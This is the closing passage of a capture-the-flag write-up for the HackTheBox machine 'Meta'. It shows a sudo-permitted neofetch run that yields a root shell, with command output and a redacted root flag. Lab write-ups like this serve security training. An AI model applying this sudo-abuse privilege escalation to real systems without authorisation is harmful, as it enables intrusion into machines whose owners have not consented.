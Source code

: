 This will spawn a new Bash shell.

- Finally run `neofetch` as `root` with Sudo:

```shell
thomas@meta:~$ sudo /usr/bin/neofetch 
root@meta:/home/thomas# whoami; hostname; id; ip a
root
meta
uid=0(root) gid=0(root) groups=0(root)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:2f:79 brd ff:ff:ff:ff:ff:ff
    inet 10.10.11.140/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
```

I'm root now! :D

## Rooted

**root.txt:**
```shell
root@meta:~# cat root.txt 
{Redacted}
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Meta/images/Pasted%20image%2020230816175404.png)
